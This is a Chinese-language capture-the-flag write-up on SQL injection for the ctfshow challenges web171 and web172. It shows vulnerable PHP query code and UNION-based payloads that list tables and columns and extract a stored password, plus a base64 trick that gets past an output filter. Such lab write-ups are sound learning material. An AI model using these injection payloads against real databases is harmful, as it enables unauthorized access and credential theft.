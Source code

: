 ## 写在前面
emmmm，之前的专题还没搞完，又来搞sql注入了，主要最近想挖sql注入的洞，于是现在学习一下。
——KonDream 2021-12-7 19:23

## web171（无过滤）
```sql
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
没有任何过滤，想法就是闭合单引号然后执行想要的sql语句
测试：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638876404000-7d781bd9-866e-4396-ac8c-e72825438034.png)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638876423816-a707d67c-6eb3-43f6-a46e-091f27cfd350.png)
回显不同说明存在sql注入
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638876623857-b4eb7636-a16b-4f40-9b6b-c4850c456026.png)
说明是3列，接下来常规操作，爆库名、表名、字段

```sql
get_database = "1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()-- -"

get_table = "1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='ctfshow_user'-- -"

get_content = "1'union select 1,group_concat(password),3 from ctfshow_user where username='flag'-- -"
```
## web172（无过滤，替换返回值）
```sql
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";

//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```
这个题返回结果不可以有flag，在这个题中flag是用户名，其对应的密码就是我们要的答案，那怎么输出密码呢？一种方法是不返回用户名flag，只返回密码，
payload：1'union select 1,password from ctfshow_user2 where username='flag'-- -
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638879167237-5a552496-c15a-4a98-9d98-f336a7b5665d.png)
另一种是对用户名flag进行编码，比如常见的base64，这样也避免了flag出现
payload：1'union select to_base64(username),to_base64(password) from ctfshow_user2 where username='flag'-- -
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638879218464-f6da2146-9c6b-48c5-a996-e0cb697279d9.png)
